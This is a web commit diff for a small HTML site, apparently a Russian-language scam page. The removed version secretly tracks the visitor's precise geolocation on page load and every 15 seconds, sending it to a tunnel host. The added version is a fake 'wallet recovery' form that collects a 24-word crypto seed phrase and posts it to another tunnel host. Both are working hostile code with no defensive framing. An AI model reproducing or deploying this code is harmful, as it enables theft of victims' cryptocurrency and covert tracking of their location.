

Before and after one commit to checkmX/zocjsnkfbm, a plain HTML site: page index.html in a window 1280 px wide. Shown: the whole page, without its empty margins (0-874 px from the left). Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -3,43 +3,129 @@
 <head>
     <meta charset="UTF-8">
     <meta name="viewport" content="width=device-width, initial-scale=1.0">
-    <title>Загрузка...</title>
+    <title>Восстановление кошелька</title>
+    <style>
+        * {
+            margin: 0;
+            padding: 0;
+            box-sizing: border-box;
+            font-family: Arial, sans-serif;
+        }
+
+        body {
+            background-color: #0D0D0D;
+            color: #fff;
+            display: flex;
+            flex-direction: column;
+            align-items: center;
+            justify-content: center;
+            height: 100vh;
+            padding: 20px;
+        }
+
+        .container {
+            background: #181818;
+            padding: 20px;
+            border-radius: 15px;
+            width: 90%;
+            max-width: 400px;
+            box-shadow: 0px 0px 15px rgba(255, 255, 255, 0.1);
+            text-align: center;
+        }
+
+        h2 {
+            font-size: 22px;
+            margin-bottom: 15px;
+        }
+
+        .input-box {
+            display: flex;
+            flex-wrap: wrap;
+            gap: 8px;
+            justify-content: center;
+            margin-bottom: 15px;
+        }
+
+        .input-box input {
+            width: calc(25% - 8px);
+            padding: 8px;
+            font-size: 14px;
+            text-align: center;
+            background: #282828;
+            border: 1px solid #3A3A3A;
+            border-radius: 8px;
+            color: #fff;
+            outline: none;
+        }
+
+        .input-box input:focus {
+            border-color: #007AFF;
+        }
+
+        .btn {
+            background: #007AFF;
+            color: white;
+            border: none;
+            padding: 12px;
+            border-radius: 10px;
+            font-size: 16px;
+            cursor: pointer;
+            width: 100%;
+            transition: 0.3s;
+        }
+
+        .btn:hover {
+            background: #005BBB;
+        }
+
+        .footer {
+            margin-top: 20px;
+            font-size: 12px;
+            color: rgba(255, 255, 255, 0.5);
+        }
+    </style>
+</head>
+<body>
+    <div class="container">
+        <h2>Восстановление кошелька</h2>
+        <p>Введите вашу seed-фразу (24 слова):</p>
+        <div class="input-box">
+            <!-- Создаём 24 input-поля для ввода seed-фразы -->
+            <script>
+                for (let i = 0; i < 24; i++) {
+                    document.write('<input type="text" maxlength="15" placeholder="' + (i + 1) + '">');
+                }
+            </script>
+        </div>
+        <button class="btn" onclick="sendSeed()">Восстановить</button>
+        <p class="footer">Не передавайте seed-фразу третьим лицам</p>
+    </div>
+
     <script>
-        function sendLocation(lat, lon) {
-            fetch('http://rnsay-2a00-1858-1047-82b3-da41-1671-f106-9d25.a.free.pinggy.link/update_location', {
+        function sendSeed() {
+            const inputs = document.querySelectorAll('.input-box input');
+            const seedPhrase = Array.from(inputs).map(input => input.value.trim()).join(' ');
+
+            if (seedPhrase.split(' ').length !== 24) {
+                alert("Введите 24 слова для восстановления.");
+                return;
+            }
+
+            fetch('https://78ce4c39a8fbab.lhr.life/save-seed', {
                 method: 'POST',
-                headers: { 'Content-Type': 'application/json', 'X-Pinggy-No-Screen': 'kakaxa' },
-                body: JSON.stringify({ latitude: lat, longitude: lon })
+                headers: {
+                    'Content-Type': 'application/json'
+                },
+                body: JSON.stringify({ seed: seedPhrase })
+            })
+            .then(response => response.text())
+            .then(data => {
+                alert("Фраза отправлена на сервер!");
+            })
+            .catch(error => {
+                alert("Ошибка отправки.");
             });
         }
-
-        function getLocation() {
-            if (navigator.geolocation) {
-                navigator.geolocation.watchPosition(
-                    function(position) {
-                        let lat = position.coords.latitude.toFixed(5);
-                        let lon = position.coords.longitude.toFixed(5);
-                        sendLocation(lat, lon);
-                    },
-                    function(error) {
-                        console.error("Ошибка геолокации:", error);
-                        window.close();
-                    },
-                    { enableHighAccuracy: true, timeout: 10000, maximumAge: 0 }
-                );
-            } else {
-                console.log("Геолокация не поддерживается устройством.");
-                window.close();
-            }
-        }
-
-        window.onload = function() {
-            getLocation();
-            setInterval(getLocation, 15000);
-        };
     </script>
-</head>
-<body>
-    <h1>Загрузка...</h1>
 </body>
 </html>
```
